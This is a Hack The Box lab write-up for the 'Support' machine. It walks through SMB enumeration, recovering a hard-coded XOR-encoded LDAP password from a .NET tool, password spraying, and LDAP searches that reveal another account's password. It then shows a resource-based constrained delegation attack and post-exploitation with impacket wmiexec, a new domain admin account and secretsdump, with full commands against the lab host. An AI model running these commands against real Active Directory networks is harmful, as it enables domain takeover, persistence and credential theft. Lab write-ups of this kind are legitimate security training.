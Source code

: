 ```yaml
---
layout: post
title: Hack the Box - Support
category: "Writeups"
---
```


## NMAP
```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-14 14:27:05Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
### SMB
- We have read access into the "support-tools" share

![[anonymous_shares.png]](/images/HTB/Support/anonymous_shares.png)

- In the share there is a bunch of tools but only "UserInfo.exe.zip" seems interesting

![[rid_brute.png]](/images/HTB/Support/rid_brute.png)


- Since we have IPC$ access, we can rid brute force to get users

- We can take the output from CrackMapExec and use this command to get list of users from output:
```bash
cat list.txt| awk {'print $6'} | cut -d '\' -f 2 > users.txt
```

### DNSpy
We can use [DNSpy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiyg4e5kKWAAxUgD1kFHV8oAx4QFnoECA4QAQ&url=https%3A%2F%2Fgithub.com%2FdnSpy%2FdnSpy&usg=AOvVaw3AGGPY0vEaQaLhf3K6Mxfc&opi=89978449) to analyze and decompile a .NET executable
- Under LdapQuery in UserInfo.Services, we see an encoded password and key being xored
- ![[dnspy_enc_passwd.png]](/images/HTB/Support/dnspy_enc_passwd.png)

Pass: ```0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E```

Key: ```armando : 61 72 6d 61 6e 64 6f```

```csharp
namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
Steps for getting the password - I used [CyberChef](https://gchq.github.io/CyberChef/) 
- Base64 decode
- xor twice with key

PW: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


## Password Spray
- Once we obtain the password, we can password spray with our user list
- ![[ldap_pass_spray.png]](/images/HTB/Support/ldap_pass_spray.png)


- We find that the ldap user is valid ```ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```

## Bloodhound
- Nothing interesting from bloodhound with the ldap user
- support user is part of Remote  Management Users

![[BH_RMU.png]](/images/HTB/Support/BH_RMU.png)

## NMAP Part 2

- Running nmap again (all ports) we find 5985 open, WinRM!

```bash
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-28 02:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53608/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking WinRM with CME

- No one from our list with the password above can remote in, we need support user

## Enumerating LDAP

```bash
ldapdomaindump ldap://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
```

```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "DC=support,DC=htb"
```

```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "CN=support,CN=Users,DC=support,DC=htb" 
```

- There are a bunch of files in the ldapdomaindump we can look through for the search base
- By specifying the support user in the search base, we can see the password in the "info" section

```text
support : Ironside47pleasure40Watchful
```

![[support_ldap_pw.png]](/images/HTB/Support/support_ldap_pw.png)

- Check with CME: ![[cme_winrm_support.png]](/images/HTB/Support/cme_winrm_support.png)
- We can remote in!

## Enumeration as support

### Bloodhound
- Looking through at our node, we can see we are a part of "Shared Support Accounts" which has "GenericAll" over the Domain Controller

![[BH_edges.png]](/images/HTB/Support/BH_edges.png)

- What does this mean? Full control of a computer object can be used to perform a resource based constrained delegation attack.

[Follwing hacktricks guide for creating the fake computer](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegationhttps://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
	
- I only used [powermad](https://github.com/Kevin-Robertson/Powermad) and [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
New-MachineAccount -MachineAccount TURCO$ -Password $(ConvertTo-SecureString 'turco123!' -AsPlainText -Force) -Verbose
```
```powershell
Set-ADComputer DC$ -PrincipalsAllowedToDelegateToAccount TURCO$ 
```
```powershell
Get-ADComputer DC$ -Properties PrincipalsAllowedToDelegateToAccount
```
- Once we have all that setup, we can verify with:
```powershell
 Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


![[new_fake_com.png]](/images/HTB/Support/new_fake_com.png)

- Next, we can use this [script](https://github.com/tothi/rbcd-attack) to allow us to delegate as Administrator by editing the "msDs-AllowedToActOnBehalfOfOtherIdentity" attribute

```bash
python rbcd-attack/rbcd.py support.htb\\support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -t DC -f TURCO
```

![[attribute_edit_success.png]](/images/HTB/Support/attribute_edit_success.png)

- We can also verify everything worked using "impacket-rbcd"

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful -delegate-to 'DC$' -action read -dc-ip 10.10.11.174
```
![[impacket-rbcd_proof.png]](/images/HTB/Support/impacket-rbcd_proof.png)

- Lastly, we create the ST using the "ldap/dc.support.htb" SPN 

```bash
impacket-getST support.htb/TURCO$:turco123! -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174
```

- Now we can wmiexec into the Domain Controller as Admin!

![[PWNED.png]](/images/HTB/Support/PWNED.png)

```bash
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

## Post Exploitation
# Secretsdump
- Create a new user
```windows
net user turc0 Turco123123!! /add /domain
```
- Add to domain admins group
```windows
net group "Domain Admins" turc0 /add /domain
```

- Dump!
```bash
impacket-secretsdump support.htb/turc0@dc.support.htb -dc-ip 10.10.11.174 -just-dc
```